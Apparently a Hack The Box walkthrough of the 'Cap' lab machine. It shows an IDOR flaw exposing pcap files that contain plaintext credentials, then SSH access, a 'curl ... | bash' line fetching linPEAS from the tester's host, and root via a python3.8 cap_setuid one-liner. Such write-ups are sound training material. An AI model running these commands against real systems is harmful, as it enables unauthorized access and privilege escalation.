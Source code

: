 # HTB Write-up: Cap

## Summary

Cap is an easy Linux machine that involves identifying misconfigured file capabilities and exploiting them to escalate privileges. The initial foothold is obtained by analyzing downloadable pcap files and discovering credentials through **IDOR** (Insecure Direct Object Reference) vulnerabilities, and after that we proceed to do some **Privilege Escalation** on Linux using LinPEAS.

---

## Nmap

We begin by scanning all ports and running default scripts to detect services:

```bash
nmap -p- -sV -sC -Pn --min-rate 1000 10.10.10.245
```

### Ports Discovered

- **21/tcp** – FTP (vsftpd 3.0.3)
- **22/tcp** – SSH (OpenSSH 8.2p1)
- **80/tcp** – HTTP (gunicorn, a Python WSGI HTTP server). The web page served is called “Security Dashboard”.

---

## Enumeration

- FTP: Anonymous login not allowed.
- Web: The dashboard reveals a few different pages.
  - **IP Config**: Shows output from `ifconfig`.
  - **Network Status**: Shows `netstat` output.
  - **Security Snapshot**: Loads a page after a short delay and offers a **.pcap** file for download.

The **Security Snapshot** page has a predictable URL structure: `http://10.10.10.245/data/10`. Trying lower IDs (e.g., `0`) reveals other snapshots—classic **IDOR vulnerability**.

By downloading and inspecting one of the earlier packet captures (PCAPs) in Wireshark, I discovered plaintext credentials:

```
Username: nathan
Password: Buck3tH4TF0RM3!
```

Tried SSH using those credentials:

```bash
ssh nathan@10.10.10.245
```

Login successful.

```bash
nathan@cap:~$ ls
snap  user.txt
nathan@cap:~$ cat user.txt
<user flag>
```

---

## Privilege Escalation

To enumerate the system for potential privilege escalation paths, I used **linPEAS**.

From my local machine (10.10.14.24):

```bash
sudo python3 -m http.server 8000
```

On Cap:

```bash
curl http://10.10.14.24:8000/linpeas.sh | bash
```

### Interesting Finding

On the LinPEAS report in the Capabilities section we find:

```bash
[+] Capabilities
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities                          
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip                                              
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

```

We also could have used getcap command to check if there file capabilities on the machine, which are special permissions that can allow binaries to perform privileged actions without being root.

```bash
getcap -r / 2>/dev/null
```

output:
```bash
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

```

- `cap_setuid` – This allows the binary (in this case, Python) to change the user ID without needing sudo.
- `cap_net_bind_service` – This allows binding to low-numbered ports (not relevant here).
- `+eip` – "Effective, Inheritable, Permitted" – Python can use these capabilities.


### Exploitation

After some research on /usr/bin/python3.8, I found by running the following command, we can escalate to root:

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

- `os.setuid(0)` — Sets the UID of the process to 0 (root).
- `os.system("/bin/bash")` — Spawns a shell with root privileges.

Since Python has the cap_setuid capability, it can switch to UID 0 (root). Normally, you would need sudo for that, but this bypasses that restriction.
So, by combining os.setuid(0) and opening a shell, you get a root shell without knowing the root password.

### Final Steps

```bash
root@cap:/root# cat root.txt
<root flag>
```

---

## Conclusion

Cap demonstrates the importance of validating access controls (to prevent IDOR) and avoiding insecure use of Linux capabilities. Granting Python CAP_SETUID can unintentionally allow privilege escalation.